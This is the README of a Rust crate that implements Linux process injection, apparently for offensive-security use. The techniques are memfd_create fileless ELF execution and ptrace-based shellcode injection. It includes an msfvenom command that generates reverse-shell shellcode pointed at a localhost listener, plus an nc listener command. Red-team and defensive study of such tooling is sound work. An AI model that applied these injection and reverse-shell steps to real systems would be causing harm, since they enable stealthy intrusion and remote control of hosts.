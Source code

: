 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Library Usage
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

## Library Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Change directory into `libinject-linux`
```bash
cd libinject-linux
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shellcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).